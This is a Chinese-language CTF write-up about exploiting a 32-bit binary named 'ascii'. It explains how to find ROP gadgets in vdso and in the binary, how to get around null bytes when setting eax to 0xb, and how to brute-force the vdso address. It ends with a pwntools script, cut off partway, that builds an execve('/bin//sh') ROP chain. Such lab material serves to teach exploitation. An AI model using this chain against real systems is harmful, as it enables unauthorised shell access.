 5. 现在只差修改 eax 的 gadget 了：
```shell
$ ROPgadget --binary vdso32.so --depth 15 | grep eax
```
然而，就算增加查找深度还是没有找到好用的 gadget。

可以看到，很大的 ascii 文件中有大量可用的 gadget。我们可以综合方法2的思路，在环境变量里放一个很短的 gadget，完成最后两步：设置 eax 和 int 80。

构造 rop chain 还是挺简单的，但是还有一个坑：
我们要将 eax 设置为 0xb，即0x0000000b，后面的0会将环境变量弄乱。

```shell
$ ROPgadget --binary ascii --only 'mov|ret'
```

找到一条可用的 gadget：
```
0x080c1f80 : mov eax, dword ptr [edx + 0x4c] ; ret
```

也就是说，第3步不能随便找一个地址，edx 得满足几个条件：
```
edx的值满足ascii条件
[edx]=0
[edx+0x4c]=0xb
```
居然顺利的找到了！

6. 综上，只需要在环境变量中放置一个8字节的gadget，不难找到。

7. 最后，编写脚本，只要 vdso 的地址跟python脚本中的预设值一致，环境变量偏移设置正确，循环执行脚本相当次数，就能拿到flag。

___
## exp

生成gadget的脚本：
```python
import re
from pwn import *

context.arch = 'i386'
context.os = 'linux'
context.terminal = ['tmux', 'split-window', '-h']

# ROPgadget 查找结果
def build_rop_chain():
    p = b''
    p += p32(0x0805b4ba)  # pop edx ; ret
    p += p32(0x080ee060)  # @ .data
    p += p32(0x08089973)  # pop eax ; ret
    p += b'/bin'
    p += p32(0x0808e5bd)  # mov dword ptr [edx], eax ; ret
    p += p32(0x0805b4ba)  # pop edx ; ret
    p += p32(0x080ee064)  # @ .data + 4
    p += p32(0x08089973)  # pop eax ; ret
    p += b'//sh'
    p += p32(0x0808e5bd)  # mov dword ptr [edx], eax ; ret
    p += p32(0x0805b4ba)  # pop edx ; ret
    p += p32(0x080ee068)  # @ .data + 8
    p += p32(0x0804af60)  # xor eax, eax ; ret
    p += p32(0x0808e5bd)  # mov dword ptr [edx], eax ; ret
    p += p32(0x080481ec)  # pop ebx ; ret
    p += p32(0x080ee060)  # @ .data
    p += p32(0x080e434a)  # pop ecx ; ret
    p += p32(0x080ee068)  # @ .data + 8
    p += p32(0x0805b4ba)  # pop edx ; ret
    p += p32(0x080ee068)  # @ .data + 8
    p += p32(0x0804af60)  # xor eax, eax ; ret
```